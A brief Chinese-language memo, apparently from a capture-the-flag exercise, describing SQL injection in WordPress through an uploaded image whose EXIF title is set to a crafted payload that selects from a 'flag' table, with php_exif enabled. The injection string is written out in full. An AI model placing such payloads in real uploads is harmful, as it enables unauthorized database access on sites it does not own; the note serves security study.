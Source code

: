 环境  
php.ini：extension=php_exif.dll  
  
WP  
图片属性标题改为：', '', '', (select * from flag))#  
上传图片造成SQL注入
